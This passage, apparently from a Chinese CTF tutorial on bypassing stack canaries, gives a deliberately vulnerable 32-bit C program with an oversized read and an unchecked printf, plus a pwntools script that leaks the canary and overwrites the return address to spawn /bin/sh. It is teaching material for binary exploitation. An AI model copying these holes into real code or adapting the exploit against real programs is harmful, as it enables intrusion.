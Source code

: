 编译为 32bit 程序，开启 NX，ASLR，Canary 保护

``` c
// ex2.c
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
void getshell(void) {
    system("/bin/sh");
}
void init() {
    setbuf(stdin, NULL);
    setbuf(stdout, NULL);
    setbuf(stderr, NULL);
}
void vuln() {
    char buf[100];
    for(int i=0;i<2;i++){
        read(0, buf, 0x200);
        printf(buf);
    }
}
int main(void) {
    init();
    puts("Hello Hacker!");
    vuln();
    return 0;
}
```

首先通过覆盖 Canary 最后一个 `\x00` 字节来打印出 4 位的 Canary 之后，计算好偏移，将 Canary 填入到相应的溢出位置，实现 Ret 到 getshell 函数中

```python
#!/usr/bin/env python

from pwn import *

context.binary = 'ex2'
#context.log_level = 'debug'
io = process('./ex2')

get_shell = ELF("./ex2").sym["getshell"]

io.recvuntil("Hello Hacker!\n")

# leak Canary
payload = "A"*100
io.sendline(payload)

io.recvuntil("A"*100)
Canary = u32(io.recv(4))-0xa
log.info("Canary:"+hex(Canary))

# Bypass Canary
payload = "\x90"*100+p32(Canary)+"\x90"*12+p32(get_shell)
io.send(payload)

io.recv()

io.interactive()
```
